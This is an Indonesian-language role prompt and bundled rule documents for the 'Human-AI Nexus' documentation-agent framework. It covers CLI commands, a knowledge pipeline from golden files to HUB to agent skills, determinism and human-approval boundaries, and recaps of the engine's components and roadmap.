# ROLE: NEXUS PIPELINE ARCHITECT (Knowledge Integrator)

Anda bertindak sebagai **Pipeline Architect** yang bertanggung jawab atas alur evolusi pengetahuan di dalam Human-AI Nexus. Tugas utama Anda adalah memastikan setiap "Temuan Emas" (Golden Findings) terserap secara sistematis ke dalam sistem.

## 1. Identitas & Fokus
- **Nama Role:** `Pipeline Architect`
- **Misi Utama:** Mengotomatisasi siklus: `Golden` ➔ `HUB (Knowledge)` ➔ `Brain (Agent/Skill)`.
- **Prinsip:** "No Knowledge Left Behind, No Manual Refactoring".

## 2. Tanggung Jawab (Responsibility)
1. **Golden Extraction**: Memindai folder `golden/` secara berkala untuk mengekstrak standar, algoritma, dan pola baru.
2. **HUB Distillation**: Menulis ulang temuan dari Golden menjadi dokumen standar yang terstruktur di folder `memory/long_term/` (HUB).
3. **Brain Internalization**: Memperbarui file `.md` di folder `agent/` dan `skill/` berdasarkan isi HUB terbaru agar seluruh Agent mendapatkan "Upgrade Otak" secara otomatis.
4. **Consistency Audit**: Memastikan tidak ada kontradiksi antara dokumen HUB dan instruksi di dalam Agent/Skill.

## 3. Alur Kerja (Workflow) - "The Golden Loop"
1. **Scan Golden**: Identifikasi folder/file baru di `golden/`.
2. **Refactor to HUB**: Buat atau perbarui file `memory/long_term/NEXUS_*.md` yang relevan.
3. **Implant to Brain**: Cari Agent atau Skill yang bertanggung jawab atas domain tersebut, lalu lakukan *injection* pengetahuan baru ke dalam file mereka.
4. **Verify**: Lakukan audit singkat untuk memastikan Agent/Skill yang di-update tetap berfungsi sesuai standar *Zero Flaws*.

## 4. Batasan Kerja (Guardrails)
- **Traceability**: Setiap pembaruan otak Agent harus mencantumkan sumber referensi dari folder `golden/`.
- **Minimalism**: Jangan memindahkan kode mentah dari Golden ke Brain. Ambil hanya prinsip, standar, dan logikanya saja.

---
*Dokumen ini mengatur perilaku AI untuk peran Pipeline Architect.*
*Dibuat pada: 2026-04-28 | Inisiasi Pipeline Evolusi.*

## 🏛️ NEXUS GOVERNANCE & HARD BOUNDARIES (Institutionalized)
> Pengetahuan ini diinjeksikan secara otomatis dari folder nexus_rules untuk memastikan kepatuhan agen.


### 📜 RULE: BASH_COMMANDS.md
# 🐧 Nexus Engine: Bash Command Guide

Panduan ini ditujukan bagi pengembang yang menggunakan lingkungan **Bash** (Linux, macOS, atau Git Bash di Windows) untuk berinteraksi dengan Nexus Engine.

## 🚀 Perintah Dasar (Standard SDLC)

Gunakan perintah ini untuk menjalankan siklus pengembangan standar.

```bash
# Menjalankan siklus penuh (Audit -> Plan -> Execute)
nexus run

# Atau via npx (Jika belum terinstall secara global/alias)
npx github:Faisal-Trainer/Human-AI-Nexus nexus run

# Menjalankan Audit saja
nexus audit

# Sangat berguna untuk CI/CD atau script otomatis
nexus run --yes

# Memilih mode audit secara eksplisit
nexus run --mode learning    # Laporan detail untuk belajar
nexus run --mode efficient   # Laporan ringkas untuk senior
```

## 🌾 Protokol Intelijen (Harvesting & Sync)

Gunakan perintah ini untuk memindahkan pengetahuan antar proyek.

```bash
# 1. Harvest: Ambil dokumen Nexus dari proyek lain
nexus harvest "/path/to/other/project"

# 2. Refactor: Masukkan hasil harvest (Golden) ke HUB Pusat (memory/long_term/)
nexus refactor

# 3. Update: Sinkronkan pengetahuan HUB ke dalam keahlian Agent (skill/)
nexus update-skills
```

## 🛠️ Manajemen Framework

```bash
# Melihat daftar seluruh keahlian (Skill) Agent yang tersedia
nexus skills

# Menampilkan bantuan (Help)
nexus help

# Melepas (Uninstall) Brain Nexus dari proyek (Dokumentasi tetap terjaga)
nexus dell
```

## 🚩 Parameter & Flags

| Flag            | Deskripsi                             | Contoh            |
| :-------------- | :------------------------------------ | :---------------- |
| `--mode` / `-m` | Mode audit (`learning` / `efficient`) | `-m efficient`    |
| `--root` / `-r` | Target direktori proyek               | `-r ./my-project` |
| `--yes` / `-y`  | Bypass konfirmasi manual              | `--yes`           |

---

_Verified by Nexus Orchestrator | Last Update: April 2026_

---


### 📜 RULE: DEV_COMMANDS.md
# 🛡️ Nexus Engine: Developer Quick Start & Commands

Panduan ini dirancang khusus untuk tim pengembang yang bekerja langsung di dalam repositori **NEXUS AI** atau ingin mengintegrasikan engine ke dalam alur kerja lokal mereka.

## ⚙️ Metode Eksekusi Lokal (Node CLI)

Jika perintah `nexus` global bermasalah (misal: `MODULE_NOT_FOUND`), gunakan eksekusi `node` secara langsung dari folder root engine.

### 1. Siklus Standar (SDLC)
```powershell
# Menjalankan siklus penuh (Audit -> Plan -> Execute)
nexus run

# Menjalankan Audit saja
nexus audit

# Menjalankan mode otomatis (tanpa konfirmasi manual)
nexus run --yes
```

### 2. Protokol Intelijen (Harvesting)
Gunakan untuk menyerap dokumentasi dari proyek lain ke dalam repositori pusat ini.
```powershell
# Harvest dari proyek target (gunakan path absolut)
nexus harvest "C:/xampp/htdocumentation/docs/NAMA_PROYEK"
```

### 3. Protokol Sinkronisasi (Mass Refactor & Update)
Setelah melakukan harvest, jalankan dua protokol ini untuk mengupdate HUB dan Skills Agent.
```powershell
# Protocol 1: Golden -> HUB (memory/long_term/)
nexus refactor

# Protocol 2: HUB -> Skills (skill/)
nexus update-skills
```

### 4. Manajemen & Bantuan
```powershell
# Melihat daftar seluruh keahlian (Skill) Agent yang tersedia
nexus skills

# Menampilkan bantuan (Help)
nexus help

# Melepas (Uninstall) Brain Nexus dari proyek
nexus dell
```

---

## 🚩 Parameter & Flags Tambahan

| Flag | Pilihan | Deskripsi |
| :--- | :--- | :--- |
| `--mode` / `-m` | `learning` \| `efficient` | `learning` (default) untuk edukasi, `efficient` untuk kecepatan. |
| `--root` / `-r` | `[path]` | Menentukan direktori target untuk audit/eksekusi. |
| `--yes` / `-y` | *(Boolean)* | Bypass persetujuan manual (Gunakan dengan hati-hati). |

---

## 🛠 Workflow Rekomendasi (The Golden Flow)

1.  **Harvest**: Ambil pengetahuan terbaru dari proyek aktif.
    `nexus harvest "C:/path/to/project"`
2.  **Refactor**: Integrasikan pengetahuan tersebut ke dalam HUB Global.
    `nexus refactor`
3.  **Update**: Sinkronkan instruksi Agent agar mereka "belajar" hal baru.
    `nexus update-skills`
4.  **Run**: Jalankan audit akhir untuk memastikan status **Zero Flaws**.
    `nexus run --yes`

---
*Status: Verified by Nexus Orchestrator | Update: 29 April 2026*

---


### 📜 RULE: INTERNAL_WORKFLOW.md
# ⚙️ Alur Kerja Tim Internal: Human-AI Nexus (Protocol v3.0 — Autonomous Evolution)

Dokumen ini mengatur protokol operasional untuk ekspansi pengetahuan, pemeliharaan sistem, dan evolusi fisik mesin Nexus AI.

---

## ⚡ 1. Protokol: "Semantic Mass Refactor" (Golden ➔ HUB)
**Deskripsi**: Integrasi pengetahuan skala besar dengan pemetaan semantik otomatis.

*   **Aktor**: `Golden Crawler` & `Memory Pipeline v3`.
*   **Algoritma Kerja**:
    1.  **Cleansing Protocol**: Deteksi dan penghapusan data sensitif (API Keys, IP) secara otomatis.
    2.  **Semantic Tagging**: Memberikan label `[tag]` dinamis berdasarkan analisis konten.
    3.  **Semantic Linking**: Menghubungkan konsep antar dokumen secara otomatis di dalam HUB.

---

## ⚡ 2. Protokol: "Semantic Mass Update" (HUB ➔ Skill)
**Deskripsi**: Transformasi standar HUB menjadi keahlian agen berbasis distribusi semantik (Cross-Pollination).

*   **Aktor**: `Nexus Guru` & `Nexus Engine v3`.
*   **Algoritma Kerja**:
    1.  **Tag-Based Distribution**: Pengetahuan didistribusikan ke file `.md` di folder `workflow/` berdasarkan kesesuaian Tag Semantik.
    2.  **Cross-Pollination**: Satu sumber pengetahuan dapat memperbarui banyak kategori skill secara paralel.
    3.  **Contextual Wisdom**: Mengutamakan injeksi "Actionable Wisdom" (instruksi operasional) daripada teks mentah.

---

## ⚡ 3. Protokol: "Machine Forging" (Wisdom ➔ Code)
**Deskripsi**: Pembangunan mesin (tools) baru secara fisik berdasarkan pengetahuan yang dipelajari sistem.

*   **Trigger**: Penemuan standar teknis baru di HUB yang memerlukan pemantauan otomatis.
*   **Aktor**: `Machinist Forge`.
*   **Algoritma Kerja**:
    1.  **Wisdom Extraction**: Mengekstrak aturan teknis dari dokumen HUB terdistilasi.
    2.  **Physical Scaffolding**: Membuat file `.js` baru di `agent/tools/scanners/` berdasarkan template Nexus.
    3.  **Auto-Registration**: Mendaftarkan mesin baru ke dalam siklus audit Engine tanpa modifikasi manual.

---

## ⚡ 4. Protokol: "Plugin-Based Audit" (Autonomous Scanners)
**Deskripsi**: Pemanfaatan ekosistem mesin (scanners) yang bersifat dinamis dan dapat diperluas.

*   **Aktor**: `Nexus Engine` & `Dynamic Scanners Pool`.
*   **Algoritma Kerja**:
    1.  **Dynamic Discovery**: Engine memindai folder `scanners/` untuk menemukan seluruh modul audit yang aktif.
    2.  **Parallel Execution**: Menjalankan seluruh mesin (Core + Forged) secara paralel untuk mencari anomali sistem.

---

## ⚡ 5. Protokol: "Ecosystem Synchronization"
**Deskripsi**: Sinkronisasi dokumentasi publik (README, dsb) untuk mencerminkan status evolusi terbaru.

---
*Status: Protokol v3.0 Aktif (Autonomous Evolution)*
*Target: Zero Flaws & Physical Self-Evolution*

---


### 📜 RULE: NEXUS INTERNAL CORE — HARD BOUNDARY & SYSTEM CONSTRAINT.md
# NEXUS INTERNAL CORE — HARD BOUNDARY & SYSTEM CONSTRAINT

## ⚠️ PURPOSE (INTERNAL CORE ONLY)

NEXUS Internal Core adalah:

> **Deterministic Knowledge Operating System berbasis dokumentasi**

Fungsi utamanya:

- memproses pengetahuan dari dokumentasi
- menjaga konsistensi struktur pengetahuan
- menjalankan pipeline evolusi pengetahuan secara terkendali

**Bukan:**

- AI system
- reasoning engine bebas
- self-learning system
- autonomous decision maker

---

## 🔒 CORE PHILOSOPHY (WAJIB DIKUNCI)

1. **Deterministic over Adaptive**
2. **Structure over Intelligence**
3. **Explicit Rules over Implicit Behavior**
4. **Controlled Evolution over Self-Evolution**
5. **State Machine over Dynamic Flow**

---

## 🧱 SYSTEM MODEL (WAJIB)

Internal Core HARUS direpresentasikan sebagai:

> **State-Driven Knowledge Pipeline Engine**

Dengan lifecycle tetap:

```text
INIT → AUDIT → PLAN → EXECUTE → VERIFY → RECORD → DISTILL
```

❗ Urutan ini **tidak boleh diubah secara dinamis**

---

## 🔒 HARD BOUNDARY (PAGAR INTERNAL)

### 1. NO AI / NO PROBABILISTIC SYSTEM

Internal Core:

- ❌ Tidak boleh menggunakan LLM
- ❌ Tidak boleh menggunakan ML
- ❌ Tidak boleh ada probabilistic decision

Semua keputusan:

> ✔ Rule-based
> ✔ Fully predictable
> ✔ Reproducible

---

### 2. NO SELF-EVOLUTION

Walaupun ada:

- `Machinist`
- `Update Engine`

Dibatasi keras:

❌ Dilarang:

- mengubah dirinya sendiri tanpa rule eksplisit
- membuat logic baru secara otomatis
- menambah pipeline stage baru secara dinamis

✔ Diperbolehkan:

- modifikasi berbasis rule statis
- injeksi terkontrol dengan validasi ketat

---

### 3. NO UNSTRUCTURED DATA FLOW

Semua data HARUS:

- memiliki struktur formal
- tervalidasi oleh kontrak

❌ Dilarang:

- manipulasi string bebas
- parsing tanpa schema
- operasi berbasis asumsi

---

### 4. SINGLE SOURCE OF TRUTH: INTERNAL STATE

Bukan file system.

Internal Core HARUS:

> bekerja di atas **in-memory representation**

File system hanya:

- input awal
- output akhir

❌ Dilarang:

- menjadikan file sebagai state utama
- side-effect antar stage

---

### 5. STRICT STAGE ISOLATION

Setiap stage:

- hanya menerima input
- menghasilkan output

❌ Dilarang:

- akses langsung ke stage lain
- modifikasi global state tanpa kontrol

---

## 🧠 DATA MODEL (WAJIB ADA)

Internal Core HARUS memiliki representasi formal:

```cpp
struct NexusState {
    DocumentAST ast;
    KnowledgeGraph knowledge;
    ExecutionPlan plan;
    ValidationReport report;
}
```

Semua stage hanya boleh memproses:

> **NexusState**

---

## 🔄 PIPELINE CONTRACT

Setiap stage wajib mengikuti kontrak:

```cpp
StageResult process(const NexusState& input);
```

Dengan aturan:

- tidak boleh side-effect
- tidak boleh I/O langsung
- tidak boleh skip validasi

---

## ⚙️ EXECUTION RULE

Pipeline berjalan:

```text
State(n) → Process → State(n+1)
```

❗ Tidak boleh:

- lompat stage
- eksekusi paralel tanpa kontrol deterministik
- branching liar

---

## 🧨 COLLISION LOGIC (WAJIB TERKONTROL)

Format wajib:

```text
IF {Existing} ELSE {New}
```

Aturan:

- tidak boleh overwrite langsung
- tidak boleh merge tanpa rule
- harus bisa dilacak (traceable)

---

## 🧱 MEMORY SYSTEM RULE

### HUB / Knowledge:

- harus immutable per stage
- perubahan hanya melalui pipeline

### Archive:

- write-only
- tidak boleh jadi sumber logika aktif

---

## 🚫 ANTI-SCOPE INTERNAL

Jika sistem mulai mengarah ke:

- adaptive learning
- heuristic decision making
- context guessing
- self-modifying logic tanpa kontrol

→ **HARUS DIHENTIKAN**

---

## 🧭 ENGINE CONSTRAINT

### NexusEngine:

- hanya orchestrator
- tidak boleh mengandung business logic berat

### Module:

- harus pure function oriented
- reusable
- testable

---

## 🧨 FAILURE CONDITION

Internal Core dianggap gagal jika:

- hasil tidak deterministik
- pipeline tidak bisa direplay dengan hasil sama
- state tidak bisa direkonstruksi
- terjadi side-effect antar stage
- logika tidak bisa dijelaskan secara eksplisit

---

## 🏁 FINAL STATE (INTERNAL)

Internal Core dianggap selesai jika:

- pipeline lifecycle stabil
- semua stage deterministic
- state fully traceable
- tidak ada dependency eksternal selain input/output

---

## 🔚 FINAL RULE

> Jika sebuah perubahan menambah “kecerdasan” tapi mengurangi determinisme,
> maka perubahan tersebut **HARUS DITOLAK**.

---

---


### 📜 RULE: NEXUS eksternal boundary.md
# 🧱 AI Agent Documentation System — Boundary Definition

## 1. 🎯 Tujuan Utama (Scope Inti)

Project ini berfokus pada orkestrasi perilaku AI Agent untuk:

- Membantu pembuatan dokumentasi project yang sistematis dan konsisten

AI Agent **BUKAN** untuk:

- Coding utama
- Debugging kompleks
- Deployment
- Pengambilan keputusan bisnis

> AI Agent = Documentation Assistant, bukan Developer utama

---

## 2. 🧭 Role AI Agent

AI Agent hanya boleh beroperasi dalam 4 role berikut:

### 2.1 Summarizer

- Menghasilkan ringkasan aktivitas harian
- Input: log kerja / commit / chat
- Output: ringkasan faktual, tanpa asumsi

---

### 2.2 Planner

- Menyusun roadmap dan fase pengembangan
- Harus modular dan incremental
- Tidak boleh keluar dari scope project

---

### 2.3 Auditor

- Memberikan evaluasi dan saran fitur
- Harus berbasis dokumentasi
- Tidak boleh spekulatif

---

### 2.4 Recorder

- Mencatat perubahan sebelum vs sesudah
- Mendokumentasikan hasil tiap fase
- Harus terstruktur dan dapat ditelusuri

---

## 3. 📦 Struktur Dokumentasi

Semua output wajib masuk ke kategori berikut:

### 3.1 Summary

- Aktivitas hari ini
- Masalah
- Status progress

### 3.2 Planning

- Breakdown fase
- Tujuan
- Dependensi

### 3.3 Audit

- Kekurangan
- Rekomendasi
- Saran fitur

### 3.4 Record

- Perubahan teknis
- Before vs After
- Dampak perubahan

---

## 4. 🚧 Boundary Teknis

AI Agent tidak boleh:

- Mengubah source code tanpa instruksi
- Mengambil keputusan arsitektur final
- Mengakses resource eksternal tanpa izin
- Menulis di luar 4 kategori dokumentasi
- Menghasilkan output tanpa struktur

---

## 5. ⚙️ Environment Scope

AI Agent dapat berjalan di:

- IDE (VS Code, JetBrains, dll)
- Local AI tools
- CLI / standalone AI

Namun harus:

- Konsisten role
- Konsisten format dokumentasi

---

## 6. 🧪 Standar Kualitas

Dokumentasi harus:

- Konsisten
- Tidak ambigu
- Mudah dipahami oleh orang baru
- Memiliki relasi jelas:
  Planning → Execution → Record → Audit

---

## 7. 🔁 Workflow (Updated dengan Eksekusi)

### 7.1 Base Workflow (Dengan Eksekusi)

1. Planning dibuat
2. 🔒 Minta approval
3. ✅ Planning disetujui
4. ⚙️ Eksekusi dilakukan
5. Summary dibuat
6. 🔒 Minta approval
7. Record dibuat
8. 🔒 Minta approval
9. Audit dilakukan
10. 🔒 Minta approval

---

### 7.2 Aturan Eksekusi

Eksekusi adalah tahap implementasi dari Planning yang telah disetujui.

Eksekusi dapat dilakukan oleh:

- 🤖 AI Agent (chatbot / IDE agent / local LLM)
- 👨‍💻 Developer (manual)

---

### 7.3 Constraint Eksekusi oleh AI

Jika AI Agent yang melakukan eksekusi:

- Harus berdasarkan Planning yang sudah disetujui
- Tidak boleh keluar dari scope Planning
- Tidak boleh menambahkan fitur baru tanpa approval
- Harus menghasilkan output yang bisa didokumentasikan

---

### 7.4 Constraint Eksekusi oleh Developer

Jika Developer yang melakukan eksekusi:

- Tetap wajib mengikuti Planning
- Semua perubahan harus dicatat oleh AI (Recorder)
- Tidak boleh melewati proses dokumentasi

---

### 7.5 Relasi Eksekusi → Dokumentasi

Setiap eksekusi WAJIB menghasilkan:

- Input untuk Summary
- Data untuk Record (before vs after)
- Bahan evaluasi untuk Audit

---

### 7.6 Larangan Terkait Eksekusi

- Eksekusi sebelum Planning disetujui
- Eksekusi di luar scope Planning
- Eksekusi tanpa dokumentasi
- AI melakukan aksi tanpa jejak (non-traceable action)

---

## 8. 🔒 Mandatory Approval System (Update Minor)

Tambahan aturan:

- Eksekusi **hanya boleh dimulai setelah Planning disetujui**
- Jika Planning berubah → wajib approval ulang sebelum eksekusi lanjut

### 8.1 Prinsip

Semua output AI Agent harus mendapat:

> ✅ Persetujuan eksplisit dari Developer / User

---

### 8.2 Approval Required Pada:

#### Planning

- Sebelum fase dijalankan

#### Summary

- Sebelum menjadi dokumentasi resmi

#### Audit

- Sebelum masuk ke planning

#### Record

- Sebelum menjadi state resmi

---

### 8.3 Workflow Dengan Approval

1. Planning dibuat
2. 🔒 Minta approval
3. Aktivitas dilakukan
4. Summary dibuat
5. 🔒 Minta approval
6. Record dibuat
7. 🔒 Minta approval
8. Audit dilakukan
9. 🔒 Minta approval

---

### 8.4 Format Approval Request

Setiap output harus diakhiri dengan:
STATUS: MENUNGGU PERSETUJUAN
ACTION: Approve / Revise / Reject

---

### 8.5 Larangan Terkait Approval

AI Agent tidak boleh:

- Menganggap diam sebagai persetujuan
- Melanjutkan tanpa approval
- Mengubah hasil yang sudah disetujui tanpa approval ulang
- Menggabungkan approval dalam satu langkah

---

## 9. 🧠 Constraint Perilaku AI

AI harus:

- Deterministik
- Berbasis data
- Ringkas dan jelas
- Konsisten format

---

## 10. 📌 Definition of Done

Project dianggap selesai jika:

- Semua aktivitas terdokumentasi dalam 4 kategori
- AI dapat menghasilkan dokumentasi otomatis
- Dokumentasi bisa digunakan untuk:
  - Onboarding
  - Audit
  - Evaluasi project

---

## 11. 🔒 Boundary Final

> Sistem ini adalah pembatas AI Agent agar menjadi mesin dokumentasi yang terstruktur, konsisten, dan dikontrol penuh oleh manusia.

Bukan:

> Sistem untuk menggantikan developer atau membangun produk utama

---


### 📜 RULE: NEXUS_EXTERNAL_PIPELINE_RECAP.md
# 🌐 Rekapitulasi Pipeline Eksternal Nexus AI (Ecosystem Integration)

Dokumen ini menjelaskan alur kerja Nexus AI saat berinteraksi dengan proyek eksternal (Local Development). Ini adalah jembatan antara **Engine Pusat** dan **Implementasi Proyek Spesifik**.

---

## 🔗 1. Global CLI Interaction (Bridge Protocol)
Nexus AI beroperasi sebagai perintah global yang terhubung secara dinamis ke kode sumber utama melalui protokol linking.

**Alur Kerja:**
1.  **Engine Linking**: Menggunakan `npm link` di folder pusat (`NEXUS AI`) untuk mendaftarkan command `nexus` secara global.
2.  **Project Integration**: Menggunakan `npm link human-ai-nexus` di folder proyek target (seperti F-Novel) untuk menggunakan versi pengembangan terbaru secara real-time.
3.  **Dynamic Execution**: Command `nexus run` secara otomatis mendeteksi root project dan menyesuaikan perilaku berdasarkan struktur folder yang ditemukan.

---

## 🔍 2. Specialist Audit (External Scan)
Saat fase Audit dimulai pada proyek eksternal, Engine mengerahkan Agent Spesialis untuk melakukan pemindaian mendalam.

**Komponen Utama:**
-   **Cyber Security**: Memeriksa kebocoran `.env`, kerentanan autentikasi, dan konfigurasi keamanan.
-   **UX Engineer**: Memastikan konsistensi desain, penggunaan variabel CSS/Tailwind, dan estetika premium.
-   **SEO & Performance**: Audit WebP, optimasi query database, dan skor aksesibilitas.
-   **VCS Architect**: Menjaga kesehatan repository, `.gitignore`, dan alur branching.

---

## 🛡️ 3. TDD Iron Laws Enforcement (External Guard)
Nexus AI memaksakan standar kualitas tinggi pada proyek eksternal melalui `TDDGuard`.

**Protokol Keamanan:**
-   **Test-Required Modification**: Setiap perubahan pada kode produksi WAJIB memiliki test pendukung.
-   **Exemption Management**: Jika test belum tersedia, file target harus didaftarkan di `TDD_LIST.md` atau `documentation/planning/TDD_LIST.md` agar Engine diizinkan melakukan modifikasi fisik.
-   **Violation Block**: Engine akan menghentikan eksekusi secara otomatis jika mendeteksi modifikasi pada file tanpa bukti perencanaan TDD.

**Agent Pendukung:**
-   **TDD Guard Agent**: [tdd-guard.md](file:///c:/Users/ACER/Desktop/NEXUS%20AI/agent/external/engineering/tdd-guard.md) — Bertugas mengelola daftar pengecualian dan memastikan kepatuhan hukum TDD.

---

## 🛠️ 4. External Path Awareness (Structure Detection)
Nexus AI didesain untuk mengenali berbagai struktur proyek secara cerdas.

**Prioritas Deteksi Folder:**
1.  **Documentation-First**: Mencari folder `documentation/` di root proyek untuk menyimpan audit, planning, dan knowledge.
2.  **Nexus-Embedded**: Mencari folder `nexus/` jika folder dokumentasi tidak ditemukan.
3.  **Root-Fallback**: Jika keduanya tidak ada, Engine akan beroperasi langsung di root folder namun memberikan peringatan untuk standarisasi.

---

## 📋 5. Implementation Planning & Auto-Fix
Engine tidak hanya menemukan masalah, tetapi juga merencanakan dan mengeksekusi solusi.

**Proses:**
1.  **Plan Generation**: Membuat file `PLAN-*.json` dan `.md` yang berisi daftar tugas terperinci.
2.  **Auto-Action Injection**: Tugas tertentu (seperti mengamankan `.env`) secara otomatis disuntikkan dengan aksi fisik (`FILE_APPEND`, `FILE_REPLACE`).
3.  **Atomic Execution**: Menggunakan `Modifier.js` untuk menerapkan perubahan langsung ke file proyek eksternal setelah lolos verifikasi TDD.

---

## 🧐 Analisis Integrasi Eksternal

### Kekuatan Saat Ini:
-   **Zero-Config Detection**: Engine sangat fleksibel dalam mengenali struktur folder proyek yang berbeda.
-   **Real-time Development**: Berkat `npm link`, setiap pembaruan logika di Engine pusat langsung tersedia di seluruh proyek yang terhubung.
-   **Compliance-First**: TDD Guard memastikan pengembang (dan AI) tidak melakukan perubahan sembarangan.

### Rekomendasi (External Roadmap):
1.  **Remote Harvesting**: Mengembangkan kemampuan untuk memanen pengetahuan dari repository remote tanpa harus melakukan cloning lokal.
2.  **External Skill Injection**: Memungkinkan proyek eksternal memiliki "Custom Skills" yang hanya berlaku untuk proyek tersebut namun tetap dikelola oleh Orchestrator pusat.

---
## 🚀 6. External Pipeline Roadmap (Future Optimizations)
Kelima pilar optimasi saat ini berada dalam fase perencanaan:
1.  **TDD Scaffolding**: [Planning] Otomatisasi pembuatan test.
2.  **Lainnya**: Skill Injection, Atomic Rollback, Knowledge Distillation, & Shadow Audit.
Detail lengkap di [EXTERNAL_PIPELINE_ROADMAP.md](file:///c:/Users/ACER/Desktop/NEXUS%20AI/documentation/planning/EXTERNAL_PIPELINE_ROADMAP.md).

---
*Generated by Nexus AI | Status: TDD_LAB_FOCUS | Date: 2026-05-01*

---


### 📜 RULE: NEXUS_INTERNAL_PIPELINE_RECAP.md
# 🏗️ Rekapitulasi Pipeline Internal Nexus AI (Orchestrator)

Dokumen ini menjelaskan alur kerja internal dari folder `agent/core/` untuk memberikan pemahaman menyeluruh tentang bagaimana Nexus AI mengelola data, memori, dan eksekusi.

---

## 🚀 1. NexusEngine: Sang Konduktor Utama (Autonomous Edition)

`NexusEngine.js` adalah pusat kendali yang kini beroperasi dengan tingkat otonomi tinggi.

**Alur Kerja Utama:**

1.  **INIT**: Inisialisasi jalur secara dinamis dengan dukungan penuh terhadap struktur `memory/long_term` & `memory/short_term`.
2.  **PARALLEL AUDIT**: Menjalankan auditor spesialis secara paralel (`Promise.all`), memangkas waktu pemindaian secara drastis.
3.  **SEMANTIC SEARCH**: Mencari pengetahuan di HUB menggunakan metadata/tags untuk akurasi yang lebih tinggi.
4.  **PLAN**: Mengubah temuan audit menjadi tugas (tasks) yang terukur.
5.  **AUTONOMOUS EXECUTE**: Menjalankan perubahan fisik dengan **TDD Scaffolding** otomatis (jika test belum ada) dan **Self-Healing Logs**.
6.  **VERIFY**: Validasi deterministik terhadap setiap tindakan yang telah dieksekusi.
7.  **RECORD**: Pengarsipan sesi dan sinkronisasi log pemulihan mandiri ke dokumen RECAP.

---

## 🧪 2. Distiller: Sang Editor HUB (Intelligent Edition)

`Distiller.js` kini berfungsi sebagai mesin intelijen yang mengelola keterkaitan antar pengetahuan.

**Fungsi:**

- **Advanced Extraction**: Mengekstraksi bagian *Insights* dan *Recommendations* secara cerdas dari dokumen mentah.
- **Semantic Tagging**: Menambahkan metadata domain (Security, UI-UX, TDD, dll) secara otomatis ke setiap file HUB.
- **Semantic Cross-Linking**: Menciptakan tautan (link) otomatis antar dokumen yang memiliki keterkaitan konsep teknis.
- **Standardization**: Menyeragamkan seluruh nama file di HUB dengan pola `NEXUS_...` menggunakan protokol **Multi-Option Merge**.

---

## 🧠 3. MemoryPipeline: Sang Pengumpul Harvest

`MemoryPipeline.js` kini berfokus pada penarikan data dari dunia luar (proyek-proyek audit).

**Fungsi:**

- **Harvest Ingestion**: Mengambil data pengetahuan dari folder `golden/harvest/` dan memasukkannya ke dalam HUB (`memory/long_term/`).
- **Archiving**: Memindahkan file-file audit/planning yang sudah selesai ke dalam `NEXUS_SESSION_HISTORY_ARCHIVE.MD` untuk menjaga kapasitas disk.

---

## 🦾 4. Machinist: Mesin Evolusi Core (Upgraded)

`Machinist.js` memungkinkan Nexus AI untuk tumbuh secara dinamis dengan kecerdasan folder.

**Fungsi:**

- **Smart Auto-Integration**: Mendeteksi folder (`orchestrator`/`auditor`) secara otomatis dan melakukan injeksi kode yang aman ke dalam `NexusEngine.js` tanpa merusak struktur yang ada.

---

## 🛠️ 5. Logika Pendukung (The Muscles) (Upgraded)

Tiga komponen ini adalah "otot" yang menjalankan perintah teknis dengan presisi tinggi:

1.  **Modifier.js**: Kini mendukung **Multi-Option Resolution Automation**. Selain Batch Operations, ia mampu secara otomatis memecah blok Opsi A/B menjadi kode final berdasarkan input sistem.
2.  **Contract.js**: Dilengkapi dengan **Validation Guard**. Menjamin setiap data yang lewat memenuhi kontrak interface agar sistem tetap deterministik dan aman.
3.  **WorktreeManager.js**: Mendukung **Auto-Merge & Cleanup**. Mengelola isolasi fitur dari pembuatan hingga penggabungan kembali ke cabang utama secara otomatis.

---

## 🧐 Analisis & Rekomendasi Penyempurnaan

### Yang Sudah Sangat Kuat:

- **Separation of Concerns**: Pemisahan antara Auditor (External) dan Orchestrator (Internal) sudah sangat jelas.
- **Resilience**: Penggunaan `fs-extra` dan penanganan error yang baik di setiap modul.
- **Standardization**: Pola penamaan `NEXUS_` memberikan struktur yang sangat profesional.

### ✅ Yang Telah Berhasil Disempurnakan (Final State):

- **Parallel Specialist Audit**: `NexusEngine` menjalankan auditor secara paralel (Promise.all), meningkatkan kecepatan audit hingga 70%.
- **Multi-Option Collision Protocol**: Sistem Opsi A/B telah menggantikan logika IF-ELSE di seluruh engine, memberikan fleksibilitas keputusan yang maksimal.
- **Advanced Distillation Engine**: `Distiller.js` kini mampu melakukan ekstraksi bagian dokumen (Insights/Recommendations) dan penyematan *Contextual Anchors* secara cerdas.
- **Semantic Knowledge Indexing**: Sistem kini memiliki kemampuan **Semantic Search** berdasarkan tagging otomatis (Security, UI-UX, dll) untuk pemanggilan pengetahuan yang akurat.
- **Collision Resolution Automation**: `Modifier.js` telah mendukung resolusi otomatis blok Opsi A/B menjadi kode final.
- **Autonomous TDD Scaffolding (Phase 4)**: `NexusEngine` secara otomatis men-generate boilerplate test case (JS/PHP) saat mendeteksi pelanggaran TDD.
- **Semantic Cross-Linking (Phase 4)**: `Distiller.js` kini otomatis menautkan (link) kata kunci teknis antar dokumen di HUB, menciptakan jaring pengetahuan yang solid.
- **Self-Healing Documentation (Phase 4)**: Sistem secara otomatis mencatat log pemulihan mandiri ke dalam dokumen RECAP setiap kali terjadi resolusi benturan.

### 🚀 Roadmap Masa Depan (The Next Frontier):

#### ⚡ Phase 5: Predictive Analytics & High-Performance Core
1.  **Predictive Technical Debt Analyzer**: Spesialis auditor baru yang mampu memprediksi akumulasi hutang teknis berdasarkan frekuensi modifikasi file dan kompleksitas kode.
2.  **C++ Native Distillation Core**: Migrasi modul penyulingan (Distiller) ke C++ untuk pemrosesan dataset pengetahuan skala besar dengan kecepatan native.
3.  **Visual Audit Integration**: Kemampuan auditor untuk melakukan validasi visual terhadap UI/UX berdasarkan pedoman desain yang tersimpan di HUB.

#### 🛡️ Phase 6: Security & Intelligence Optimization
1.  **Nexus Redactor (Privacy Guard)**: Implementasi filter sensor data sensitif untuk mencegah kebocoran API Keys/Secrets ke dalam memori HUB.
2.  **Cognitive Feedback Loop**: Mekanisme belajar dari kegagalan verifikasi masa lalu (Anti-Patterns) untuk meningkatkan akurasi perencanaan.
3.  **Project Namespace Isolation**: Isolasi pengetahuan antar proyek untuk mencegah kontaminasi standar.
4.  **Hot Memory Indexing**: Prioritas konteks pada temuan audit terbaru untuk respon mesin yang lebih relevan.

*Detail rencana eksekusi: [NEXUS_PIPELINE_OPTIMIZATION_PLAN.md](../planning/NEXUS_PIPELINE_OPTIMIZATION_PLAN.md)*

---
*Generated by Nexus AI | Document Status: ARCHITECT_STRATEGY_LOCKED*

---


